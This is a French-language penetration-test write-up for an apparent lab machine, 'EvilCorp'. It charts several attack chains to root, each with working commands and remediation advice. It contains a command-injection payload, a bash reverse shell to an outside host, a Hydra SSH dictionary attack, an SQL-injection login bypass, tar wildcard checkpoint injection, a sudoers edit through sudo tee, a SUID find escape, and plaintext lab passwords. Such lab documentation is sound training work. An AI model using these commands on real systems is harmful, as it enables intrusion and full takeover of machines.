

# Rapport des chemins d’exploitation — EvilCorp

## 1. Périmètre et conventions

Ce document référence les vulnérabilités représentées dans la cartographie interactive du laboratoire EvilCorp. Il décrit l’état actuel des recherches et distingue les exploitations reproduites des chemins encore hypothétiques.

**Cible principale :** `10.10.10.83`

| Nœud du schéma | Identité réelle |
|---|---|
| `You` | Machine d’attaque / Kali |
| `User W` | `www-data` |
| `User J` | `John` |
| `User A` | `Alice` |
| `User B` | `Bob` |
| `User R` | `Root` |

### Statuts

- **Confirmée** : vulnérabilité reproduite avec une preuve technique.
- **Non confirmée** : chemin visible sur le schéma, mais vulnérabilité pas encore identifiée ou reproduite.

> [!IMPORTANT]
> `VULN-02` dispose désormais d’une méthode de validation probable par attaque par dictionnaire SSH, mais le résultat Hydra doit encore être observé avant de la déclarer confirmée. `VULN-09` n’a toujours pas été trouvée.

## 2. Vue d’ensemble des chemins



### Chemins confirmés vers Root

1. `Kali → VULN-01 → www-data → VULN-05 → John → VULN-06 → Root`
2. `Kali → VULN-03 → Alice → VULN-07 → Root`
3. `Kali → VULN-04 → Bob → VULN-08 → Root`

### Chemins non confirmés

1. `Kali → VULN-02 → John` — méthode identifiée, validation Hydra en attente.
2. `Kali → VULN-09 → Root` — vulnérabilité non trouvée.

## 3. Synthèse des vulnérabilités

| ID | Vulnérabilité | Criticité | Chemin | Statut |
|---|---|---:|---|---|
| VULN-01 | Command Injection | Critique | `Kali → www-data` | Confirmée |
| VULN-02 | Attaque par dictionnaire SSH | À confirmer | `Kali → John` | **À valider** |
| VULN-03 | FTP anonyme exposant une clé SSH | Critique | `Kali → Alice` | Confirmée |
| VULN-04 | Injection SQL / Authentication Bypass | Critique | `Kali → Bob` | Confirmée |
| VULN-05 | Divulgation d’identifiants | Élevée | `www-data → John` | Confirmée |
| VULN-06 | Tar Wildcard Injection | Critique | `John → Root` | Confirmée |
| VULN-07 | Mauvaise configuration sudo | Critique | `Alice → Root` | Confirmée |
| VULN-08 | Binaire `find` SUID dangereux | Critique | `Bob → Root` | Confirmée |
| VULN-09 | Accès Root alternatif | À confirmer | `Kali → Root` | **Non trouvée** |

---

## 4. Détail des vulnérabilités

## VULN-01 — Command Injection

| Propriété | Valeur |
|---|---|
| Criticité | **Critique** |
| Statut | Confirmée |
| Chemin | `Kali → User W / www-data` |
| Service | Application PINGOZAURUS — HTTP |
| Utilisateur obtenu | `www-data` |

### Description

PINGOZAURUS construit une commande système à partir de la saisie utilisateur avec une concaténation similaire à :

```javascript
exec("ping -c 4 " + req.body.command)
```

L’entrée n’étant ni validée ni échappée, un séparateur shell comme `;` ou `&&` permet d’ajouter une commande arbitraire à la commande `ping`.

### Preuve d’exploitation

```bash
curl -X POST http://10.10.10.83/ \
  --data-urlencode "command=localhost -c 1;id"
```

Résultat observé :

```text
uid=33(www-data)
```

Cette exécution de commandes constitue le point d’entrée du chemin menant à `www-data`. Le reverse shell utilisé pour poursuivre l’énumération est détaillé dans `VULN-05`.

### Impact

- Exécution de commandes arbitraires sur le serveur.
- Obtention d’un shell sous l’identité `www-data`.
- Accès aux fichiers lisibles par le compte du serveur web.
- Point d’entrée vers la compromission de John via `VULN-05`.

### Recommandations

- Remplacer `exec()` par `spawn()` ou `execFile()`.
- Passer les arguments sous forme de tableau.
- Valider strictement les entrées avec une liste blanche.
- Ne jamais construire une commande shell par concaténation.
- Exécuter l’application avec un compte disposant du minimum de privilèges.

---

## VULN-02 — Attaque par dictionnaire SSH contre John

| Propriété | Valeur |
|---|---|
| Criticité | **À confirmer** |
| Statut | **Méthode identifiée / validation en attente** |
| Chemin supposé par le schéma | `Kali → User J / John` |
| Service | SSH |
| Utilisateur ciblé | `John` |

### État actuel

Le chemin alternatif vers John peut correspondre à une attaque par dictionnaire contre le service SSH. Le mot de passe `peterpan` est présent dans `rockyou.txt` ; Hydra doit donc pouvoir l’identifier en testant ce dictionnaire contre le compte John.

### Preuve d’exploitation

Lancer l’attaque par dictionnaire :

```bash
hydra -l john \
  -P /usr/share/wordlists/rockyou.txt \
  ssh://10.10.10.83 \
  -t 4 -I
```

Résultat attendu :

```text
[22][ssh] host: 10.10.10.83   login: john   password: peterpan
```

Valider ensuite les identifiants :

```bash
ssh john@10.10.10.83
# Mot de passe : peterpan

whoami
id
```

La vulnérabilité pourra être marquée comme **confirmée** lorsque Hydra aura effectivement retrouvé le mot de passe et que la session SSH John aura été ouverte.

### Impact

Si le test réussit, un attaquant peut compromettre directement John depuis le réseau, sans passer par `VULN-01` et `VULN-05`, puis exploiter `VULN-06` afin d’obtenir Root.

### Suite de l’investigation

- Utiliser un mot de passe long, unique et absent des dictionnaires publics.
- Privilégier l’authentification SSH par clé.
- Désactiver l’authentification SSH par mot de passe si elle n’est pas nécessaire.
- Limiter les tentatives avec Fail2ban ou un mécanisme équivalent.
- Ne passer le statut à « confirmée » qu’après une validation reproductible.

---

## VULN-03 — FTP anonyme exposant une clé privée SSH

| Propriété | Valeur |
|---|---|
| Criticité | **Critique** |
| Statut | Confirmée |
| Chemin | `Kali → User A / Alice` |
| Services | FTP anonyme et SSH |
| Utilisateur obtenu | `Alice` |

### Description

Le serveur FTP accepte une authentification anonyme et expose une clé privée SSH appartenant à Alice. Une fois téléchargée, cette clé permet une authentification SSH complète sous son identité.

### Preuve d’exploitation

```bash
ftp anonymous@10.10.10.83
```

Après téléchargement de `id_rsa` :

```bash
chmod 600 id_rsa
ssh -i id_rsa alice@10.10.10.83
```

### Impact

- Exposition d’une clé privée.
- Compromission complète du compte Alice.
- Accès interactif au serveur via SSH.
- Point de départ de l’élévation Root via `VULN-07`.

### Recommandations

- Désactiver l’accès FTP anonyme.
- Ne jamais stocker de clé privée sur un service publiquement accessible.
- Révoquer et renouveler immédiatement toute clé exposée.
- Restreindre les permissions des fichiers sensibles.
- Préférer un protocole de transfert chiffré et authentifié.

---

## VULN-04 — Injection SQL / Authentication Bypass

| Propriété | Valeur |
|---|---|
| Criticité | **Critique** |
| Statut | Confirmée |
| Chemin | `Kali → User B / Bob` |
| Service | EvilCorp Web — HTTP `8081` |
| Utilisateur obtenu | `Bob` |

### Description

Le formulaire `/login` construit sa requête SQL par concaténation. Une condition toujours vraie injectée dans le champ `username` contourne l’authentification et ouvre le panneau d’administration. Une note interne présente dans ce panneau divulgue ensuite le mot de passe de Bob.

### Preuve d’exploitation

Test initial du mécanisme d’authentification :

```bash
curl -X POST http://10.10.10.83:8081/login \
  -d "username=test&password=test"
```

Résultat :

```text
Invalid credentials
```

Injection SQL :

```bash
curl -X POST http://10.10.10.83:8081/login \
  --data-urlencode "username=' OR 1=1 -- " \
  --data-urlencode "password=test"
```

La requête générée devient logiquement équivalente à :

```sql
SELECT * FROM users
WHERE username='' OR 1=1 -- ' AND password='test';
```

Le panneau d’administration est alors affiché et divulgue :

```text
Bob / xNfE98RSsa
```

Connexion SSH :

```bash
ssh bob@10.10.10.83
# Mot de passe : xNfE98RSsa
```

Validation :

```bash
whoami
id
```

### Impact

- Contournement complet de l’authentification.
- Accès non autorisé au panneau d’administration.
- Divulgation d’un mot de passe.
- Compromission du compte Bob.
- Point de départ de l’élévation Root via `VULN-08`.

### Recommandations

- Utiliser exclusivement des requêtes préparées ou un ORM sûr.
- Valider et filtrer toutes les entrées côté serveur.
- Limiter les privilèges du compte de base de données.
- Ne jamais afficher de mots de passe dans une interface.
- Stocker les mots de passe sous forme de condensats robustes et salés.

---

## VULN-05 — Divulgation des identifiants de John

| Propriété | Valeur |
|---|---|
| Criticité | **Élevée** |
| Statut | Confirmée |
| Chemin | `User W / www-data → User J / John` |
| Services | Système de fichiers et SSH |
| Utilisateur obtenu | `John` |
| Prérequis | Exploitation de `VULN-01` |

### Description

Après l’exploitation de la Command Injection, un reverse shell est obtenu sous l’identité `www-data`. L’énumération du système révèle que `/run/john-script.sh` est lisible et contient le mot de passe de John en clair.

### Preuve d’exploitation

Sur la machine d’attaque, démarrer un listener :

```bash
nc -lvnp 4444
```

Injecter le reverse shell dans PINGOZAURUS :

```bash
curl -X POST http://10.10.10.83/ \
  --data-urlencode "command=localhost -c 1; /bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"
```

Confirmer le contexte :

```bash
whoami
id
pwd
```

Énumérer les fichiers accessibles :

```bash
find / -name "*.sh" 2>/dev/null
find / -type f 2>/dev/null
```

Lire le script découvert :

```bash
cat /run/john-script.sh
```

Secret exposé :

```text
PASSWD="peterpan"
```

Utiliser ce mot de passe pour ouvrir une session SSH :

```bash
ssh john@10.10.10.83
# Mot de passe : peterpan
```

### Impact

- Divulgation d’un secret réutilisable.
- Compromission du compte John.
- Accès SSH interactif.
- Prérequis direct à l’élévation Root via `VULN-06`.

### Recommandations

- Ne jamais stocker de mots de passe en clair dans des scripts.
- Utiliser un gestionnaire de secrets.
- Employer des variables d’environnement sécurisées lorsque cela est nécessaire.
- Restreindre les permissions des scripts de service.
- Renouveler immédiatement tout secret exposé.

---

## VULN-06 — Tar Wildcard Injection

| Propriété | Valeur |
|---|---|
| Criticité | **Critique** |
| Statut | Confirmée |
| Chemin | `User J / John → User R / Root` |
| Service | Tâche cron et GNU tar |
| Utilisateur obtenu | `Root` |
| Prérequis | Compte John obtenu via `VULN-05` |

### Description

`/etc/crontab` contient une sauvegarde exécutée par Root toutes les cinq minutes :

```bash
cd /home/john/ && tar -zcf /home-john-backup.tgz *
```

Le caractère `*` est utilisé sans séparateur `--`. Des fichiers dont le nom commence par `--` sont donc interprétés comme des options GNU tar. Les options `--checkpoint` et `--checkpoint-action` permettent de déclencher un script contrôlé par John dans le contexte Root de la tâche cron.

### Preuve d’exploitation

Énumération initiale :

```bash
whoami
id
pwd
ls -la
sudo -l
cat /etc/crontab
```

Création d’un payload copiant Bash et lui attribuant le bit SUID :

```bash
echo 'cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash' > shell.sh
chmod +x shell.sh
```

Création des fausses options GNU tar :

```bash
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'
```

Contrôle du déclenchement du cron :

```bash
ls -l --full-time /home-john-backup.tgz
ls -l /tmp/rootbash
```

Résultat attendu :

```text
-rwsr-xr-x root root ... /tmp/rootbash
```

Obtention et validation du shell privilégié :

```bash
/tmp/rootbash -p
whoami
id
```

Le résultat confirme une identité effective Root avec un UID effectif égal à `0`.

### Impact

- Exécution de commandes arbitraires par une tâche Root.
- Élévation complète des privilèges depuis John.
- Lecture et modification de tous les fichiers du système.
- Compromission complète de la machine.

### Recommandations

- Ne pas utiliser de wildcard dans une tâche cron privilégiée.
- Insérer `--` avant la liste des fichiers : `tar -zcf archive.tar -- *`.
- Référencer explicitement les fichiers à sauvegarder.
- Exécuter la sauvegarde avec un compte dédié non privilégié.
- Protéger les répertoires traités par les tâches Root contre l’écriture par des utilisateurs non privilégiés.

---

## VULN-07 — Mauvaise configuration sudo

| Propriété | Valeur |
|---|---|
| Criticité | **Critique** |
| Statut | Confirmée |
| Chemin | `User A / Alice → User R / Root` |
| Service | `sudo` et `/usr/bin/tee` |
| Utilisateur obtenu | `Root` |
| Prérequis | Compte Alice obtenu via `VULN-03` |

### Description

Alice peut exécuter `/usr/bin/tee -a *` avec `sudo` sans mot de passe. `tee` pouvant écrire dans un fichier arbitraire, cette règle autorise la modification de `/etc/sudoers` et l’ajout d’une nouvelle autorisation sans restriction pour Alice.

### Preuve d’exploitation

Découverte depuis le shell Alice :

```bash
sudo -l
```

Règle observée :

```text
(ALL : ALL) NOPASSWD: /usr/bin/tee -a *
```

Ajout d’une règle sudo non restreinte :

```bash
echo "alice ALL=(ALL) NOPASSWD: ALL" \
  | sudo /usr/bin/tee -a /etc/sudoers
```

Obtention de Root :

```bash
sudo su
```

Validation :

```text
root@bf818c9b1d85:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Impact

- Écriture dans des fichiers système sensibles.
- Modification de la politique sudo.
- Élévation complète et immédiate vers Root.
- Compromission complète du système.

### Recommandations

- Supprimer la règle sudo associée à `tee`.
- Ne pas autoriser via sudo des outils permettant l’écriture arbitraire.
- Limiter strictement les arguments des commandes autorisées.
- Appliquer le principe du moindre privilège.
- Auditer régulièrement `/etc/sudoers` et `/etc/sudoers.d/`.

---

## VULN-08 — Binaire `find` SUID dangereux

| Propriété | Valeur |
|---|---|
| Criticité | **Critique** |
| Statut | Confirmée |
| Chemin | `User B / Bob → User R / Root` |
| Service | Binaire SUID `/home/bob/find` |
| Utilisateur obtenu | `Root` |
| Prérequis | Compte Bob obtenu via `VULN-04` |

### Description

Une copie de `find`, située dans `/home/bob/find`, appartient à Root et possède le bit SUID. Lorsqu’elle est exécutée par Bob, elle conserve l’identité effective de son propriétaire. La fonctionnalité `-exec` permet de lancer `/bin/sh`, et l’option `-p` demande au shell de préserver les privilèges hérités.

### Preuve d’exploitation

Confirmer le compte compromis :

```bash
whoami
id
```

Rechercher les fichiers SUID :

```bash
find / -perm -4000 -type f 2>/dev/null
```

Résultat notable :

```text
/home/bob/find
```

Vérifier le propriétaire, les permissions et le type du fichier :

```bash
ls -l /home/bob/find
file /home/bob/find
```

Exploiter `-exec` en conservant les privilèges :

```bash
/home/bob/find . -exec /bin/sh -p \; -quit
```

Valider l’élévation :

```bash
whoami
id
```

Le shell obtenu possède une identité effective Root, soit `euid=0(root)`.

### Impact

- Élévation locale immédiate depuis Bob vers Root.
- Lecture et modification de tous les fichiers.
- Récupération des secrets du système.
- Création de comptes privilégiés ou de mécanismes de persistance.
- Compromission intégrale de la machine.

### Recommandations

- Supprimer le bit SUID : `chmod u-s /home/bob/find`.
- Supprimer cette copie et utiliser uniquement le binaire système officiel.
- Auditer les fichiers SUID : `find / -perm -4000 -type f`.
- Contrôler les propriétaires, permissions et empreintes des binaires privilégiés.
- Surveiller la création de nouveaux fichiers SUID.

---

## VULN-09 — Accès Root alternatif

| Propriété | Valeur |
|---|---|
| Criticité | **À confirmer** |
| Statut | **Non trouvée / non confirmée** |
| Chemin supposé par le schéma | `Kali → User R / Root` |
| Service | Non déterminé |
| Utilisateur supposé | `Root` |

### État actuel

Le schéma présente une voie supplémentaire permettant un accès direct à Root depuis la machine d’attaque. Cette vulnérabilité n’a pas encore été identifiée ni reproduite.

### Preuve d’exploitation

**Aucune preuve technique disponible.**

### Impact

Non évalué tant que le mécanisme n’a pas été découvert et reproduit.

### Suite de l’investigation

- Conserver ce chemin comme une hypothèse.
- Poursuivre l’énumération des services et mécanismes privilégiés exposés.
- Documenter les prérequis, commandes et résultats si une voie reproductible est découverte.
- Ne pas présenter ce chemin comme exploitable avant validation technique.

---

## 5. Conclusion

L’audit a permis de confirmer trois chaînes indépendantes menant à Root :

- la compromission de `www-data`, puis de John, suivie d’une Tar Wildcard Injection ;
- l’exposition de la clé SSH d’Alice, suivie d’une règle sudo dangereuse ;
- le contournement SQL donnant accès à Bob, suivi de l’exploitation d’un binaire SUID.

À ce stade, sept vulnérabilités sont confirmées. Une méthode de validation a été identifiée pour `VULN-02`, qui reste à tester avant confirmation. `VULN-09` demeure non trouvée et doit rester affichée comme **non confirmée** jusqu’à l’obtention d’une preuve technique reproductible.
